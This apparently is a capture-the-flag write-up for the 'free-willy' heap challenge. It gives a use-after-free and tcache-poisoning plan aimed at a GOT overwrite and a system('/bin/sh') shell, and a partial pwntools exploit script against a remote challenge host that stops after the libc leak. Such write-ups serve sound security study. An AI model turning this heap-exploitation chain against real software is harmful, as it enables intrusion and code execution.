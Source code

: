After some reversing, I found the `Whale` structure:

```c++
struct Whale
{
  char pad[8];
  char *name;
  unsigned __int64 size;
  int shape;
}; // sizeof after padding = 32
```

Basically, what I do is:

- `disown` a `Whale`.
- Use `UAF` to overwrite `fd` of the first `tcache` entry with its address.
- `adopt` a new `Whale` , this `Whale` will have the `name` pointer points to itself.
- `rename` this `Whale` to overwrite its `name` ptr with an entry in `GOT` table.
- Leak libc base address.
- Overwrite `free` with `system`.
- Find a way to call `free("/bin/sh")`.

```python
from pwn import *
#context.log_level = 'debug'
p = 0
atoi_got = 0x603060
libc = ELF('libc-2.27.so', checksec=False)
def adopt(name):
	p.sendlineafter('> ', 'adopt')
	p.sendafter(b'whale?\n', name)

def observe(idx):
	p.sendlineafter('> ', 'observe')
	p.recvuntil('observe?\n')
	p.sendlineafter('observe?\n', str(idx))
	p.recvuntil('lil ')
	return p.recvline()[:-1]

def disown(idx):
	p.sendlineafter('> ', 'disown')
	p.recvuntil('send away?\n')
	sleep(1)
	p.sendline(str(idx))

def rename(idx, name):
	p.sendlineafter('> ', 'name')
	sleep(1)
	p.sendline(str(idx))
	p.sendafter(b'name?\n', name)


def main():
	global p
#	p = process('./free-willy')
	p = remote('jh2i.com', 50021)
	adopt(b'xikhud\n')
	disown(0)
	r = observe(0).ljust(8, b'\x00')
	heap = u64(r) - 0x10
	log.info('Heap: 0x%X' % heap)
	rename(0, p64(heap+0x30+0x10)+b'\n')
	adopt(b'/bin/sh\x00' + p64(0x603018) + p8(32) + b'\n')
	r = observe(1).ljust(8, b'\x00')
	free = u64(r)
	log.info('free: 0x%X' % free)
```
